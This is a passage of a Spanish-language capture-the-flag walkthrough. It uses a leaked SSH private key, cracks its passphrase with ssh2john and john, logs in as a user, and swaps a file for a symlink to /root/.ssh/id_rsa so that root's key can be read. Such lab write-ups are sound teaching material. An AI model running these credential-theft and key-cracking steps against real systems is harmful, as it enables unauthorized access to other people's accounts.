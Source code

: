 Vemos que obtenemos una `id_rsa` como la hemos podido leer como el usuario `root` vamos a probar a utilizarla con dicho usuario por `SSH`.

```shell
nano id_rsa

#Dentro del nano
<PEGAMOS_ID_RSA>
```

Lo guardamos y establecemos los permisos necesarios, para dicho archivo.

```shell
ssh -i id_rsa root@<IP>
```

Veremos que nos pide una contraseña, si probamos con el usuario `isabella` veremos que nos pide la contraseña de la clave `PEM` por lo que vamos a probar a ver si pudieramos `crackear` la contraseña de la clave `PEM` con `john`.

```shell
ssh2john id_rsa > hash.id_rsa
```

```shell
john --wordlist=<WORDLIST> hash.id_rsa
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
invisible        (id_rsa)     
1g 0:00:02:13 DONE (2025-05-12 04:26) 0.007488g/s 84.83p/s 84.83c/s 84.83C/s merda..vivalabam
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que hemos obtenido la contraseña, por lo que nos conectaremos por `SSH` mediante dicha contraseña como el usuario `isabella`.

```shell
ssh -i id_rsa isabella@<IP>
```

Metemos como contraseña `invisible` y veremos que estaremos dentro, acordemonos de que podemos leer como `root` el archivo `.invisible` por lo que vamos a eliminar dicho archivo y vamos a crear un enlace `simbolico` a la `id_rsa` del usuario `root`.

```shell
rm .invisible
ln -s /root/.ssh/id_rsa .invisible
```

Ahora si nos vamos al otro usuario con el que podemos leer como `root` dicho archivo.
